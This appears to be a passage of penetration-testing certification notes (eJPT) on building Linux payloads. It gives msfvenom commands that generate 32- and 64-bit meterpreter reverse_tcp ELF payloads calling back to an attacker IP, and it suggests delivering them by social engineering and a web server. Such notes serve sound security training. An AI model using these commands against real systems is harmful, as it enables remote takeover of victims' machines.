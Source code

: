 ```bash
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

- Generate a Linux payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux_Payloads/payloadx86
```

**64bit payload:**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux_Payloads/payloadx64
```

- 📌 *Platform and architecture are auto selected if not specified, based on the selected payload*

![](assets/image-20230415192514206.png)

The transferring method onto the target system depends on the type of the social engineering technique.

- **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system
